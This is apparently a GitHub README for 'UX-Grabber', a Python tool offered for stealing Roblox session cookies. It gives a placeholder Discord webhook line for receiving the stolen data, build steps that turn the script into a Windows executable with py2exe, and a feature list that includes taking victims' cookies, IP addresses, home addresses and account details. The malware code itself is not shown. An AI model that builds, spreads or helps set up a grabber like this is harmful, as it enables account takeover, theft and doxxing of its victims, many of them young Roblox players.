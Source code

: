 <h1 align="center">
  UX-Grabber 🍪 
</h1>

# Instructions:

### Replace this

```py
webhook = "https://discord.com/api/webhooks/xxxxxxxxxxxxxxxxxxx/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
```
### For ur own webhook

#### Install py2exe
```bash
$ pip install py2exe
```
#### Create setup.py
```py
from distutils.core import setup
import py2exe 

setup(console=['main.py'])
```
#### And run ur setup.py
```bash
$ python setup.py py2exe
```
#### Install requirements
```bash
$ pip install -r requirements.txt
```

- Features.
  - Log Roblox Cookies ✔
  - Check if they are premium ✔
  - Check Account Age ✔
  - Steals IP ✔
  - Finds their address ✔
  - Check their robux balance ✔
  - And more ✔
